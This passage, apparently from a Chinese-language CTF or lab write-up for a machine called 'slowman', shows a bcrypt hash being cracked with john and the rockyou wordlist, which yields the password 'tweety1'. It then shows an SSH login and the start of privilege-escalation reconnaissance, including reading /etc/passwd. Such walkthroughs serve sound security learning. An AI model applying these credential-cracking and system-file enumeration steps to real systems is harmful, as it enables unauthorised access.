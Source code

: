 ### hash爆破

hash爆破一下：

```apl
trainerjean
$2y$10$DBFBehmbO6ktnyGyAtQZNeV/kiNAE.Y3He8cJsvpRxIFEhRAUe1kq
```

```bash
echo '$2y$10$DBFBehmbO6ktnyGyAtQZNeV/kiNAE.Y3He8cJsvpRxIFEhRAUe1kq' > hash.txt
john --wordlist /usr/share/wordlists/rockyou.txt hash.txt
```

> 双引号有些字符会被解释，而单引号不会！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404041747938.png" alt="image-20240404173308578" style="zoom: 33%;" />

得到用户：

```apl
trainerjean
tweety1
```

尝试ssh连接：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404041747939.png" alt="image-20240404173433875" style="zoom:50%;" />

成功！

## 提权

### 信息搜集

```bash
(remote) trainerjean@slowman:/home/trainerjean$ whoami;id
trainerjean
uid=1002(trainerjean) gid=1002(trainerjean) groups=1002(trainerjean)
(remote) trainerjean@slowman:/home/trainerjean$ sudo -l
[sudo] password for trainerjean: 
Sorry, user trainerjean may not run sudo on slowman.
(remote) trainerjean@slowman:/home/trainerjean$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
```